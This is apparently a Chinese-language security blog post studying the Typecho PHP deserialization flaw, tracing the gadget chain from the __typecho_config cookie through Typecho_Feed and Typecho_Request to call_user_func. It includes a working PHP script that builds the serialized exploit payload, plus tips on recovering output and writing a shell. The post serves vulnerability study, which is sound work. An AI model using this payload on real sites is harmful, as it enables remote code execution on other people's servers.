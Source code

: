 ```yaml
---
layout: post
title:  typecho 反序列化学习
date: 2017-10-31
categories: 漏洞分析
tags:  php 反序列化
---
```


* content
{:toc}


### typecho 反序列化学习

typecho 是一个个人博客程序，前段时间爆出了一个反序列化getshell漏洞，漏洞很经典，所以从技术角度通过typecho漏洞来学习和记录一下php反序列化。











### 反序列化漏洞点

如果发现了反序列化的漏洞点，很容易绕过前面的限制，  TODO，来找一下如何对漏洞进行利用，如图是两个反序列化进行的地方，可以看到是从Cookie中取出typecho_config的值。然后base64解码，在进行反序列化操作。

所以现在有：
1. 有反序列化函数
2. 可控的输入 


### 理解exp构造流程

	$config = unserialize(base64_decode(Typecho_Cookie::get('__typecho_config')));
    Typecho_Cookie::delete('__typecho_config');
    $db = new Typecho_Db($config['adapter'], $config['prefix']);
    $db->addServer($config, Typecho_Db::READ | Typecho_Db::WRITE);
    Typecho_Db::set($db);

config被Typecho_Db调用一次，addServer再调用一次

	public function __construct($adapterName, $prefix = 'typecho_')
    {
        /** 获取适配器名称 */
        $this->_adapterName = $adapterName;

        /** 数据库适配器 */
        $adapterName = 'Typecho_Db_Adapter_' . $adapterName;

        if (!call_user_func(array($adapterName, 'isAvailable'))) {
            throw new Typecho_Db_Exception("Adapter {$adapterName} is not available");
        }

        $this->_prefix = $prefix;

        /** 初始化内部变量 */
        $this->_pool = array();
        $this->_connectedPool = array();
        $this->_config = array();

        //实例化适配器对象
        $this->_adapter = new $adapterName();
    }

分别有字符串拼接和生成对象。对toString继续进行跟踪

在```Typecho/Feed.php```中有对```$item['xxx']```,```$item['xxx']->yyy```,```$this->xxx```等形式

在调用对象未定义或不可见的类属性或者方法时，会调用重载方法(php专属重载和其他语言不一样)，如上对对象未定义或不可见的类属性时进行取值，会调用```__get()```方法，

对get方法进行搜索在typecho/Request类中调用了```_applyFilter($value)```在这个方法中使用```call_user_func```，```call_user_func($filter, $value)``` 


### 完整exp

1. 构造typecho/Request对象，参数```_filter```和```_params```中含有call_user_func命令执行 函数 取$item['author']就是typecho/Request对象
2. 构造typecho/Feed对象```$adapterName = 'Typecho_Db_Adapter_' . $adapterName ```调用了typecho/Feed的toString对象
3. 构造referer和typecho_config等参数
4. 构造exp需要注意一点：开启了ob_start的话会让脚本没有回显，同时我们的exp会触发自有的exception，调用了ob_end_clean方法清空了缓冲区，虽然会执行但是没有回显，有效解决方法，1.通过设置数组来控制第二次执行的函数，然后找一处exit跳出，缓冲区中的数据就会被输出出来，2.在命令执行之后，想办法造成一个报错，语句报错就会强制停止，这样缓冲区中的数据仍然会被输出出来，3.写一个文本shell

php生成typecho_config代码如下

	<?php
	class Typecho_Request
	{
		private $_params = array('screenName' =>'eval(\'phpinfo();exit();\')');
		private $_filter = array('assert');
		
	}
	$payload_request = new Typecho_Request();
	
	class  Typecho_Feed
	{	
		private $_type = 'RSS 2.0';
		private $_items ;	
		
		public function __construct	($payload_request){
			$this->_items[] = array('author' => $payload_request);
		}
	}
	
	$payload_Feed = new Typecho_Feed($payload_request);
	$payload['adapter'] = $payload_Feed;
	echo base64_encode(serialize($payload));
	?>

	

### ROP寻找思路

$config 是可控的反序列参数，1.寻找```__destruct()```和```__wakeup()```这两个方法中的危险函数。 2.按代码执行继续寻找

	new	Typecho_Db($config['adapter'], $config['prefix']);

在Typecho_Db构造函数中寻找危险操作

	$adapterName = 'Typecho_Db_Adapter_' . $adapterName; //字符串拼接
	$this->_adapter = new $adapterName();   //构造新对象

寻找```__toString()```,和```__construct()```魔术化方法中危险操作

	Typecho/Config.php   serialize($this->_currentConfig)//对对象进行序列化  
	Typecho/Db/Query.php  //字符串拼接等操作
	Typecho/Feed.php  this->xxx, $item['author']->screenName,$item['author']

serialize会调用```__sleep()```魔术方法,当取类中未定义或者不可访问成员时会调用```__get()```方法

	class Typecho_Config implements Iterator
	class IXR_Client
	class Typecho_Plugin
	class Widget_Themes_Edit extends Widget_Abstract_Options implements Widget_Interface_Do
	class Typecho_Date
	class Typecho_Request
	abstract class Typecho_Widget
	class Typecho_Widget_Helper_Layout

这些类中都有```__get```方法，进行深搜等操作

	public function __get($key)
    {
        return $this->get($key);
    }

	public function get($key, $default = NULL)
    {
        switch (true) {
            case isset($this->_params[$key]):
                $value = $this->_params[$key];
                break;
            case isset(self::$_httpParams[$key]):
                $value = self::$_httpParams[$key];
                break;
            default:
                $value = $default;
                break;
        }

        $value = !is_array($value) && strlen($value) > 0 ? $value : $default;
        return $this->_applyFilter($value);
    }

	 private function _applyFilter($value)
    {
        if ($this->_filter) {
            foreach ($this->_filter as $filter) {
                $value = is_array($value) ? array_map($filter, $value) :
                call_user_func($filter, $value);
            }

            $this->_filter = array();
        }

        return $value;
    }
	
最后调用了危险函数 call_user_func, 能够进行任意命令执行等操作

### PHP魔术方法


	__construct()， __destruct()， __call()， __callStatic()， __get()， __set()， __isset()， __unset()， __sleep()， __wakeup()， __toString()， __invoke()， __set_state()， __clone() 和 __debugInfo() 
	
	__wakeup() //使用unserialize时触发
	__sleep() //使用serialize时触发
	__destruct() //对象被销毁时触发
	__call() //在对象上下文中调用不可访问的方法时触发
	__callStatic() //在静态上下文中调用不可访问的方法时触发
	__get() //用于从不可访问的属性读取数据
	__set() //用于将数据写入不可访问的属性
	__isset() //在不可访问的属性上调用isset()或empty()触发
	__unset() //在不可访问的属性上使用unset()时触发
	__toString() //把类当作字符串使用时触发
	__invoke() //当脚本尝试将对象调用为函数时触发

### 参考链接

1. [php反序列化总结](http://bobao.360.cn/learning/detail/4122.html)
2. [360cert typecho漏洞分析](https://cert.360.cn/warning/detail?id=8f5b782a9e6e310370c5e198b72eed06)
3. [typecho漏洞分析1](http://pupiles.com/typecho.html)
4. [php魔术方法官方文档](http://php.net/manual/zh/language.oop5.magic.php)
5. [php重载官方文档](http://php.net/manual/zh/language.oop5.overloading.php)
6. [很基础的反序列化漏洞讲解](http://www.blogsir.com.cn/safe/452.html)




